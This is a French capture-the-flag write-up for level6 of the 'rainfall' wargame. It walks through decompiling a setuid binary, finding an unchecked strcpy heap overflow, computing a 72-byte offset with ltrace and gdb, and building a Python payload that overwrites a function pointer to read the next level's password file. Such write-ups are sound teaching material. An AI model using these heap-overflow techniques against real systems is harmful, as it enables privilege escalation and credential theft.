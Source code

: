 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2064(level6) gid=2064(level6) groups=2064(level6),100(users)
/home/user/level6
total 17
dr-xr-x---+ 1 level6 level6   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level6 level6  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level6 level6 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level7 users  5274 Mar  6  2016 level6
-rw-r--r--+ 1 level6 level6   65 Sep 23  2015 .pass
-rw-r--r--  1 level6 level6  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level6 :

```bash
$ ./level6
Segmentation fault (core dumped)
$ ./level6 da
Nope
```

Je recoupe l'analyse ASM du binaire avec GDB des résultats obtenus sur [Dogbolt](https://dogbolt.org/?id=bf99b17b-f29d-4c51-9cac-5055972d80ea) et en extrait une version probable du code :

```c
void n() // <-----------------------------------4 shell access
{
    system("/bin/cat /home/user/level7/.pass");
}

void m()
{
    puts("Nope");
}

int main(int argc, char **argv)
{
    int *buffer;
    void (**funcptr)(void);

    buffer = (char *)malloc(64); // <-----------1 dealing with heap here due to malloc, so we use ltrace instead of gdb
    funcptr = (void (**)(void))malloc(4);

    *funcptr = m;
    strcpy(buffer, argv[1]); // <---------------2 buffer overflows here, can be used to rewrite to what the funcptr (next to buffer in the heap) points to
    (*funcptr)(); // <--------------------------3 once corrupted, points to n() and not m() anymore
}
```

Je peux donc maintenant me concentrer sur les vulnérabilités que ce code présente. Ici, cela ressemble au premier level de `rainfall`, la particularité étant que la vulnérabilité ici semble être `strcpy()`. Ce dernier ne prend pas de taille limite, et il utilise l'argument passé au binaire pour la copie.

Je me penche donc sur ce point d'entrée possible.
Je note également qu'il n'est pas question ici de la `stack`, mais de la `heap` puisque `malloc()` est utilisé.

Etant donné que la string est alloué sur la `heap` mais également le pointeur de pointeur sur function, alors je peux exploiter une vulnérabilité donc le but serait d'overflow la `heap` afin de ré-écrire où le pointeur de pointeur sur function pointe.

Ici, il s'agirait d'overflow `string` au moment de `strcpy()` en passant un argument `argv[1]` trop grand pour `string`.
Cet overflow aura pour but de ré-écrire ce sur quoi les 4 bytes alloué au pointeur sur fonction pointeront donc désormais.

Afin de construire un payload infecté, il me faut calculer la distance entre ces deux allocations sur la `heap`. 

J'utilise `ltrace` (affiche les appels à des librairies partagées) pour simplifier ce processus :

```bash
$ ltrace ./level6 da
__libc_start_main(0x804847c, 2, 0xbffff7f4, 0x80484e0, 0x8048550 <unfinished ...>
malloc(64)                  = 0x0804a008 <-- ici
malloc(4)                   = 0x0804a050 <-- ici
strcpy(0x0804a008, "da")    = 0x0804a008
puts("Nope"Nope
)                           = 5
+++ exited (status 5) +++
```

Je peux calculer la distance : `0x0804a050 - 0x0804a008 = 0x48 = 72` bytes.

Il faut donc que mon payload remplisse le `buffer` de 64 bytes, puis 8 bytes de bruit pour atteindre 72 et que les prochaines écriture ré-écrive sur l'adresse du pointeur sur fonction.

Je cherche maintenant l'adresse de la fonction `n()` avec `gdb` :

```h
$ gdb ./level6
(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   %ebp <-------------- ici
   0x08048455 <+1>:     mov    %esp,%ebp
   0x08048457 <+3>:     sub    $0x18,%esp
   0x0804845a <+6>:     movl   $0x80485b0,(%esp)
   0x08048461 <+13>:    call   0x8048370 <system@plt>
   0x08048466 <+18>:    leave
   0x08048467 <+19>:    ret
End of assembler dump.
```

L'adresse de `n()` est : `0x08048454`.

Il ne me reste donc plus qu'à construire le payload.
Ce dernier aura pour but de remplir le buffer alloué dans la `heap` pour buffer, ajouter du bruit jusqu'atteindre l'endroit dans la `heap` où est écrit l'adresse de ce sur quoi pointe le pointeur sur fonction (pour le moment `m()`) et remplacer cette dernière par l'adresse de `n()`.

De manière similaire au précedents level, voici le payload qui exploite cette vulnérabilité :

```python
python -c 'print("\x90" * 72 + "\x08\x04\x84\x54"[::-1])'
```

- Padding de 72 instructions `NOP` (no operations)
- L'adresse de `n()`

J'essaye ce payload :

```bash
$ ./level6 `python -c 'print("\x90" * 72 + "\x08\x04\x84\x54"[::-1])'`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

